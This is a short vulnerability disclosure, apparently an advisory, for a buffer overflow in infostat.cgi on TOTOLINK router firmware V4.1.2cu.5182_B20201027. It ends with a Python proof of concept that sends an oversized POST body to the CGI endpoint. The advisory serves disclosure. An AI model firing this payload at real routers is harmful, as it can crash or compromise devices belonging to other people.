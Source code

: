 # Firmware:
TOTOLINK:V4.1.2cu.5182_B20201027
http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=62&ids=36

# Detail:

Parameters in infostat.cgi are not filtered, causing a buffer overflow vulnerability

![CZ}53``7N)N5EZ{Y6JDUJ(L](https://user-images.githubusercontent.com/84966968/183253587-485e610d-b3b6-4ef4-95b5-9b05818f7620.png)

The fread function copies data directly to the V11 register without filtering, causing a buffer overflow
# poc：
```
import requests
data = {'a':'a'*0x4000}
res = requests.post("http://11.11.11.2/cgi-bin/infostat.cgi", data=data)
print(res.content)
```
